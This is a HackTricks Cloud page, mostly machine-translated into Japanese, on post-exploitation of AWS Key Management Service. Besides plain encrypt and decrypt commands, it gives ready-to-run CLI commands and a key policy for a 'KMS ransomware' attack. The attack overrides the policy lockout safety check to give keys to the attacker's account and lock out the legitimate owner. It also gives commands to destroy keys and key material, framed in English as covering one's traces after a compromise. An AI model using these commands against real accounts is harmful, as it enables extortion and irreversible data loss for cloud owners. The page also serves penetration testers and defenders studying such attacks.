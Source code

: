 # AWS - KMSポストエクスプロイテーション

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **会社の広告をハックトリックで見たい**場合や、**最新バージョンのPEASSをダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter**で私をフォローする 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するには、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>

## KMS

詳細については、次を参照してください：

{% content-ref url="../../aws-security/aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../../aws-security/aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### 情報の暗号化/復号化

* **対称**キーを使用する
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* **非対称**キーを使用する:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMSランサムウェア

KMSへの特権アクセスを持つ攻撃者は、KMSキーのポリシーを変更し、**自分のアカウントにアクセス権限を付与**し、正規のアカウントに付与されたアクセスを削除することができます。

その後、正規のアカウントのユーザーは、これらのキーで暗号化されたサービスの情報にアクセスできなくなり、アカウント上で簡単かつ効果的なランサムウェアが作成されます。

{% hint style="warning" %}
AWSの管理キーはこの攻撃の影響を受けません。影響を受けるのは**顧客管理キー**のみです。

また、この攻撃はCLIからのみ可能であり、Webコンソールではオプション**`--bypass-policy-lockout-safety-check`**の使用が必要です。
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
### キーの破棄

Once you have successfully compromised an AWS environment and gained access to the AWS Key Management Service (KMS), you may want to destroy any keys that could potentially be used against you or leave traces of your activities. Destroying keys ensures that any encrypted data protected by those keys becomes inaccessible.

To destroy a key in AWS KMS, you can use the `schedule-key-deletion` API call. This API call sets a waiting period before the key is permanently deleted. During this waiting period, you can cancel the deletion if needed.

Here is an example of how to destroy a key using the AWS CLI:

```bash
aws kms schedule-key-deletion --key-id <key-id> --pending-window-in-days 7
```

In this example, `<key-id>` should be replaced with the ID of the key you want to destroy. The `--pending-window-in-days` parameter specifies the number of days the key will remain in a pending deletion state before being permanently deleted. You can adjust this value based on your requirements.

Keep in mind that destroying keys should be done with caution, as it can have serious consequences. Make sure you have a thorough understanding of the environment and the potential impact before proceeding with key destruction.
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **会社をハックトリックで宣伝したい**場合や、**最新バージョンのPEASSを入手したい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションをご覧ください
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローしてください 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **ハッキングのトリックを共有するには、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>

